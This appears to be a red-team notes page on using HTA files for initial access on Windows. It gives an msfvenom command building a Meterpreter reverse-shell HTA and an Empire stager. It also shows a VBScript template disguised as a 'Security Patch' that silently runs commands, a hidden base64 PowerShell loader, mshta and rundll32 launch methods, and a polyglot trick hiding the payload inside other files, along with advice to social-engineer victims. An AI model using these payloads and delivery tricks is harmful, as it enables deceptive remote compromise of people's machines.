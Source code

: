 # HTA

## 01 - Generate Payloads

### 1.1 - `msfvenom`

> [!INFO] Payload's Limitation
> It couldn't handle a command execution that exceeded 8192 characters.. Check for more details about [[Command Prompt|command prompt]] (`cmd.exe`).
 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f hta-psh -o payload.hta
```

### 1.2 - Empire

```
(Empire) > usestager windows/launcher_hta
```

### 1.3 - HTA Templates

HTA payload template.

```html
<html>
	<head>
		<title>
			Security Patch
		</title>
	</head>
	<body>
		<p>Installing security patch...</p>
	</body>
	<script language="VBScript">
	Function Execute()
		Set shell = CreateObject("WScript.Shell")
		shell.Run "<commands>", 0
	End Function

	Execute
	</script>
</html>
```

This is a de-obfuscated format of `hta-psh` in `msfvenom`. Refer to this [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Malware Development/Payload Execution/Command Execution/Execute Commands/Windows/WinAPI|section]] related to command execution using `powershell.exe`.

```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set Shell = CreateObject("WScript.Shell")
  Set Program = CreateObject("Scripting.FileSystemObject")
  For each path in Split(Shell.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If Program.FileExists(path + "\..\powershell.exe") Then
      Shell.Run "powershell -nop -w hidden -e <base64_encoded_powershell_script>", 0
      Exit For
    End If
  Next
  window.close()
</script>
```

## 02 - Execute Payloads

> [!TIP] HTA Payloads
> You can actually social engineer the victim to double click the `.hta` to establish connection.

### 2.1 - `mshta.exe`

```
C:\> mshta.exe vbscript:Execute("MsgBox(""Would you like to update Windows?"", 64, ""Example"")(window.close)")

C:\> mshta.exe javascript:alert("Please Install Required Update")
```

To execute the payload.

```
C:\> mshta.exe %CD%\payload.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\payload.hta
```

### 2.2 - `rundll32.exe`

```
C:\> rundll32.exe url.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe url.dll,FileProtocolHandler "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe url.dll,OpenURLA "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe shdocvw.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe ieframe.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.hta` payload.

Bind the binary files together.

```
C:\> copy /y /b filename.extension+payload.hta hidden_payload.extension
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.extension+payload.hta hidden_payload.extension
```

Then execute it

```
C:\> mshta.exe %CD%\hidden_payload.extensions
```

---
## References

### Backlinks

- [[Rundll32]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

### LOLBAS

- [LOLBAS: Mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)

### Red Team Notes

- [Red Team Notes: MSHTA](https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution)

### DMCXBlue

- [DMCXBlue: MSHTA](https://dmcxblue.gitbook.io/red-team-notes/execution/mshta)

### Sevagas

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)